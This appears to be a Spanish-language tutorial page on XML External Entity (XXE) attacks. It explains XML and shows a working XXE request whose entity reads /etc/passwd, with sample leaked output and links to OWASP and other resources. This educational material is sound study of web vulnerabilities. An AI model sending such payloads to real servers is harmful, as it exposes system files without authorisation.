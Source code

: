 # XML External Entity(EXX)

El lenguaje de marcado extensible (XML) permite definir y almacenar datos de forma compartible. XML admite el intercambio de información entre sistemas de computación, como sitios web, bases de datos y aplicaciones de terceros.

## Tipos de vulnerabilidades de XML

### **XXE (XML External Entity)**

Un ataque _de entidad externa XML_ es un tipo de ataque contra una aplicación que analiza la entrada XML. Este ataque ocurre cuando la entrada XML que contiene una referencia a una entidad externa es procesada por un analizador XML débilmente configurado .Es un formato de datos popular que se utiliza para servicios web (SOAP, REST), documentos (XML, HTML, DOCX), imágenes (svg, datos exif), etc.&#x20;

```xml
<?xml version="1.0" encoding="UTF-8"?>

<root>
    <product>
        <name>Producto 1</name>
        <price>100</price>
    </product>

    <product>
        <name>Producto 2</name>
        <price>200</price>
    </product>
</root>

```

### ¿Cómo detectarlos y explotarlos?

Las aplicaciones necesitan un analizador XML o un procesador XML para interpretar datos XML. La vulnerabilidad XXE surge cuando el analizador XML interpreta la carga útil maliciosa como datos XML estándar que pueden terminar accediendo o extrayendo datos confidenciales en el servidor.

Para dar un ejemplo, una solicitud HTTP básica con cuerpo XML y la respuesta HTTP correspondiente se parece a lo siguiente:

```xml
POST /api/users HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: 100

<?xml version="1.0" encoding="UTF-8"?>
<user>
  <username>admin</username>
  <password>secret</password>
</user>

```

Cuando el atacante envía los siguientes datos XML con la carga útil XXE incluida, el analizador XML procesa entidades externas, lo que hace que el servidor devuelva el contenido del archivo interno /etc/passwd.

```xml
POST /api/users HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: 141

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE user [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
  <username>&xxe;</username>
  <password>secret</password>
</user>

```

**Posible contenido**

```
root:x:0:0:root:/root:/bin/bash
```

## **Videos**

{% embed url="https://www.youtube.com/watch?v=gn3c5iRzeXY" %}

{% embed url="https://www.youtube.com/watch?v=9ZokuRHo-eY" %}

<mark style="color:red;">**Recursos**</mark>

{% embed url="https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection" %}

{% embed url="https://aws.amazon.com/es/what-is/xml/" %}

{% embed url="https://www.cobalt.io/blog/how-to-execute-an-xml-external-entity-injection-xxe" %}
